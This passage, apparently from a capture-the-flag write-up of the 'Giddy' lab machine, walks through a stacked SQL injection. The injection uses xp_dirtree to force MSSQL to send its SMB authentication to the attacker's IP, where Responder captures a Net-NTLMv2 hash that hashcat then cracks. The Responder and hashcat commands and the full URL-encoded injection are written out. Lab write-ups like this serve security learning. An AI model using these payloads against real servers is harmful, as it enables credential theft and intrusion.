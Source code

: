 
## Second SQL Injection attempt: xp_dirtree + responder + hashcat

However there is something we can do now with the username at hand, just like in Querier, another Windows HTB box, we can force MSSQL to connect to our computer to list the content of a remote directory using an undocumented function called xp_dirtree, MSSQL will try to connect to us using SMB by presenting an authentication LNTMv2 hash, we can grab this hash and crack it to find Stacy's password and login using her account. To do this we need a temporary SMB server to grab the hash for us, Responder can do the job:

```shell-session
$ responder -I tun0
```

This command will start a selection of servers managed by Responder on the network interface used to connect to the HTB labs:

![img](/images/giddy-writeup/13.png)

Now Responder is listening for events and will show us whatever it receives, especially hashes, so it's time to send the special command to the MSSQL database to trigger the authentication attempt from Stacy. The attack works as follow: declare a variable containing our IP addresses, use the xp_dirtree command to list the content of the folder located at our address. The individual commands are these:

```shell-session
SQL> declare @q varchar(99);
SQL> set @q "\\10.10.14.29\test";
SQL> exec master.dbo.xp_dirtree @q;
```

In thte first line we declare an array of 99 characters, so essentially a string called q, which is then assigned the path of a fake folder located on our machine. Lastly, the xp_dirtree command is called to connect to us and this will cause Giddy to send us a hash. These three SQL queries can of course be injected straight from the GET parameter we found vulnerable earlier, and when URL encoded they become this:

```shell-session
/mvc/Product.aspx?ProductSubCategoryId=28;declare%20@q%20varchar(99);set%20@q=%27\\10.10.14.29\test%27;exec%20master.dbo.xp_dirtree%20@q
```

The URL above can be pasted straight in the URL and the result is:

![img](/images/giddy-writeup/14.png)

Now the whole hash can be copied and pasted in a file I called giddy.hash and hashcat is used to crack it using the usual rockyou.txt dictionary. Because the hashing algorithm used for SMB authentication is Net-NTLMv2 we must specify the right mode for hashcat which is 5600, while "-a 0" means we're launching a dictionary attack:

```shell-session
$ hashcat -m 5600 -a 0 --force giddy.hash /usr/share/wordlists/rockyou.txt
```

It takes only a few seconds to have the results back:
